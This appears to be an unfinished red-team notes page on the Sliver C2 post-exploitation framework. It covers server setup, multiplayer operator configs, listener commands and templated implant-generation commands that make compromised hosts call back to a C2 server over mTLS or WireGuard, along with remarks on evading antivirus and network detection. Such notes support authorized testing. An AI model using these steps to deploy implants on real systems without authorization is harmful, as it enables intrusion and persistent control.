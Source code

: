 Sliver C2 is a powerful post-exploitation framework that can be used to establish a firm foothold on a device with an extensible interface that reminds the user of Meterpreter. It is detected out of the box by most AV solutions, as it is very popular, but it can be obfuscated and otherwise made to evade detection. 

Documentation can be found here: https://sliver.sh/docs

# Server
```shell
sliver-server # start the server
```

The server functions as a fully featured point of interaction, and it is not required to use the client at all if no multiplayer is going to be used. However, if multiple operators will need to interact with compromised hosts, multiplayer mode will need to be enabled, and configuration files will need to be generated. 

# Multiplayer
Multiplayer mode allows other users (players) to connect to the C2 via mTLS and operate implants simultaneously with the host. For multi-person engagements, this is preferable, and easy to set up. 

```shell
new-operator --name <operator short name> --lhost <C2 server IP> -p all
```

>[!note] The C2 server IP must be accessible as described by the operator machine. Do not provide a local IP address. Domain names may or may not be permissible. Update when we know.

This will output a configuration file that the new player can store with the `import` command.

```shell
./sliver-client import <config file>
```

On startup, Sliver will ask which server config the operator would like to use, and connect them into the C2 server.
# Implant Generation
All of the implants generation is taken care of by the `generate` command. Sliver supports HTTP, DNS, WireGuard, TCP, and mTLS callbacks for both sessions and beacons. While these can be used for evasion, mTLS is a safer bet for avoiding NIDS because of its builtin and thorough encryption both directions. 

```bash
generate --mtls <FQDN of C2:port> --os <target operating system> --arch <target CPU architecture> --save <local save location> # generate an mTLS session sliver

generate beacon --wg <FQDN of C2:port> --os <target operating system> --arch <target CPU architecture> # generate a WireGuard beacon sliver
```

Sliver also supports multiple protocols per implant, with it defaulting between them in this order: mTLS -> WireGuard -> HTTP(S) -> DNS.

You must individually start jobs receiving new connections for each protocol

```bash
mtls # start an mTLS listener
dns # start a DNS listener
# etc...
```

# Implant Usage
TODO: Fill this out
# Armory
TODO: Give more details on loading armory modules and how to use them effectively.
